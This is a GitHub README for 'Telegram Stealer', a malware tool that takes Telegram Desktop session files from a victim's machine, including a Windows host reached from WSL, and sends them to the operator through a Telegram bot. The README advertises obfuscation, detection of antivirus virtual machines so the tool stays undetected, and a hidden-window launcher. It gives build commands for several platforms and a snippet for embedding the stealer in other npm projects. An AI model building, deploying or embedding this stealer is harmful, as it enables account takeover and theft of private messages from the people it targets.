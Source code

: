# Telegram Stealer

Steal Telegram Desktop sessions.

If the stealer is started inside WSL, it will get the Telegram Desktop sessions from its Windows host.

**Note:** If the target configured a local password in Telegram Desktop, the sessions will be encrypted, so you would need the password to unlock it.

## Demo

https://youtu.be/3mKOwtCnwYw

## Features

- Steal Telegram Desktop sessions
- Works on all platforms, including WSL (on WSL, the binary will get the sessions from its Windows host)
- If Telegram Desktop is not in appData (i.e. portable installation), inspect the `Telegram.exe` running process to find its path (Windows or WSL only)
- Source is highly obfuscated using [javascript-obfuscator](https://github.com/javascript-obfuscator/javascript-obfuscator)
- Output binary is packaged to a single portable binary using [pkg](https://github.com/vercel/pkg)
- Send sessions via Telegram using webhooks
- Try to detect some anti-virus virtual machines to be FUD as long as possible

## Build

Install dependencies

```sh
npm i -D
npm i -g pkg
```

Build

```sh
npm run build <chat_id> <bot_token>

# Create the stealer binary, choose target system and architecture
npm run pkg-windows
npm run pkg-linux
npm run pkg-linux-arm
npm run pkg-macos
npm run pkg-macos-arm
```

## Run

Run the `hello` binary.

To hide the console window on a Windows machine, you can run the script using the provided VB script (see [`run_hidden_windows.vbs`](./run_hidden_windows.vbs)).

## Include in your project

```sh
npm install https://github.com/rigwild/telegram-stealer.git
```

```ts
import { run as stealTelegram } from 'telegram-stealer'

type StealTelegram = (
  telegramChatId: string,
  telegramToken: string,
  archivePassword?: string,
  waitOnStart?: boolean
) => Promise<void>

await stealTelegram('<chat_id>', '<bot_token>', '<archivePassword>', false)
```

## License

[The MIT license](./LICENSE)
